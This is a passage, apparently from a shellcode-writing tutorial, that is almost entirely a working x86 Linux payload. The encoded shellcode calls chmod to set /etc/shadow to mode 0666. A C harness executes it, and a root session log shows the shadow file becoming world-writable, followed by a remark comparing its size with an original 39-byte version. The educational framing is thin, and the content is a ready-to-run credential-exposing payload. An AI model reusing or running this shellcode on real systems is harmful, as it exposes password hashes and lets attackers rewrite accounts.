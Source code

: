 ```bash
"\x31\xd2\x31\xc0\x83\xc0\x0f\x89\xd1\x52\xb1\x11\x80\xc1\x66\x51\x66\x81\xc1\xed\x6e\x66\x51\x81\xc1\xcb\x03\x68\x61\x51\x68\x2f\x65\x74\x63\x89\xe3\x31\xc9\x66\xb9\xb6\x01\xcd\x80\x6a\x01\x58\xcd\x80";

main()
{
        printf("Shellcode Length: %d\n",strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}

# gcc -fno-stack-protector chmod-new.c -o chmod-new
# ls -la /etc/shadow
-rw-r----- 1 root shadow 1333 feb 21  2017 /etc/shadow
# ./chmod-new 
Shellcode Length: 50
# ls -la /etc/shadow
-rw-rw-rw- 1 root shadow 1333 feb 21  2017 /etc/shadow
```

The original shellcode has 39 bytes and our shellcode has 50 bytes, so we have increased the shellcode 38.89%

